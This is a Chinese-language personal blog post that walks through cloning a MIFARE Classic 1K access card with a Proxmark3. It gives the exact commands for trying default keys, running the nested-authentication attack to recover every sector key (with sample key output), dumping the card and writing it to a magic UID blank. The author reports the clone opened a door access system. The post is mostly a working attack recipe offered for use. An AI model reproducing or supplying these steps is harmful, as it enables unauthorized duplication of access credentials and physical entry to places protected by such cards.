 ```yaml
---
layoyt: post
title: Clone IC Card with Proxmark3
---
```


好吧，今天高产似母猪。。。

安装好了 Proxmark3 的驱动，自然要玩一玩 IC 卡克隆喽。

IC Card: NXP MIFARE CLASSIC 1k | Plus 2k SL1

1. 读取 IC 卡型号，确定与本实验相同
```
hf 14a read
```
2. 使用厂家常用默认密码碰碰运气，国内好多是 `ffffffffffff`, 我会乱说
```
hf mf chk *1 ? t
```
参数不确定的话，使用 `hf mf chk` 查看，运气好的话
```
Found valid key:[ffffffffffff]
```
3. 利用嵌套认证漏洞，使用任何一个扇区的已知密钥，获取所有扇区的密钥（其实不懂这句话讲什么啦）
```
hf mf nested 1 0 a FFFFFFFFFFFF d
```
结果大致如下
```
Iterations count: 63
|---|----------------|---|----------------|---|          
|sec|key A           |res|key B           |res|          
|---|----------------|---|----------------|---|          
|000|  484558414354  | 1 |  a22ae129c013  | 1 |          
|001|  484558414354  | 1 |  49fae4e3849f  | 1 |          
|002|  484558414354  | 1 |  38fcf33072e0  | 1 |          
|003|  484558414354  | 1 |  000000000000  | 0 |          
|004|  484558414354  | 1 |  509359f131b1  | 1 |          
|005|  484558414354  | 1 |  6c78928e1317  | 1 |          
|006|  484558414354  | 1 |  aa0720018738  | 1 |          
|007|  484558414354  | 1 |  a6cac2886412  | 1 |          
|008|  484558414354  | 1 |  62d0c424ed8e  | 1 |          
|009|  484558414354  | 1 |  e64a986a5d94  | 1 |          
|010|  484558414354  | 1 |  8fa1d601d0a2  | 1 |          
|011|  484558414354  | 1 |  89347350bd36  | 1 |          
|012|  484558414354  | 1 |  66d2b7dc39ef  | 1 |          
|013|  484558414354  | 1 |  6bc1e1ae547d  | 1 |          
|014|  484558414354  | 1 |  22729a9bd40f  | 1 |          
|015|  484558414354  | 1 |  484558414354  | 1 |          
|---|----------------|---|----------------|---|
Printing keys to binary file dumpkeys.bin...
```
res 为 `1` 的话，表示密码正确，`0` 不正确，“一般 B 密码不正确不影响读取数据，可以忽视”

4. dump 数据到本地 dumpdata.bin 文件
```
hf mf dump
```
该文件在之前运行 proxmark3 的 `proxmark3/client/` 目录下，
被克隆的卡现在可以移除了

5. 把 dumpdata.bin 转换成可以刷人其他 IC 卡的 eml 文件，该文件以卡号命名，即 [八个16进制字符的卡号].eml
```
script run dumptoemul.lua
```
生成的 eml 文件同样在 `proxmark3/client/` 目录下

6. 把准备用来克隆的空白卡放在高频卡读卡位置换上，本实验使用俗称 M1 UID 的卡
```
hf mf cload [被克隆卡的八个16进制字符的卡号]
```
如果出现
```
Loaded from file: [八个16进制字符的卡号].eml
```
说明克隆成功！

得瑟地马上去试了一下门禁，完全没有问题。

## Reference
* http://bouzdeck.com/rfid/32-cloning-a-mifare-classic-1k-tag.html
* 卖家的克隆 IC 卡图片教程